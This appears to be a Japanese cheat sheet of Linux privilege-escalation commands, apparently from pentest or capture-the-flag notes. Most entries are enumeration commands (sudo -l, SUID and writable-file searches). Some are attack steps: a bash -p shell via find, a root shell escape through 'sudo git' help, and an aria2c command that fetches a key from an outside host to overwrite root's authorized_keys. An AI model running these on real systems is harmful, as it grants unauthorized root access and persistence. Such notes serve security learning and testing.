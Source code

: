 ## 権限エスカレーションの調査

### 今のユーザーで実行可能な`sudo`権限の一覧
```bash
sudo -l
```

### 誰でも書き込み可能なファイルの調査
```bash
find / -perm -o+w -type f 2>/dev/null | grep /proc -v
```

### `setuid`ビットがセットされたファイルの調査
```bash
find / -type f -perm -4000 2>/dev/null
```
- `setuid`ビット: 実行時に所有者の権限で実行されるファイル

### 書き込み可能なディレクトリの調査
```bash
find / -writable -type d 2>/dev/null
```

### 任意のコマンドを用いて調査
```bash
find * -exec bash -p \;
```

### Debianシステムでインストールされているアプリケーション一覧
```bash
dpkg -l
```

### `sudo`を使ったGitの設定ヘルプの表示
```bash
sudo git -p help config
```
- シェルに入るための省略コマンド: `!/bin/sh`

### `aria2c`コマンドを使用したファイルの上書き
```bash
aria2c -d /root/.ssh/ -o authorized_keys "http://192.168.0.99:8000/id_rsa.pub" --allow-overwrite=true
```

### マウントされたドライブの一覧
```bash
cat /etc/fstab
```

### すべての利用可能なドライブの一覧
```bash
lsblk
```

### 読み込まれているドライバの一覧
```bash
lsmod
```

## 参考サイト
- [GTFObins - 各種ファイル等を利用した権限昇格サイト](https://gtfobins.github.io/)
```
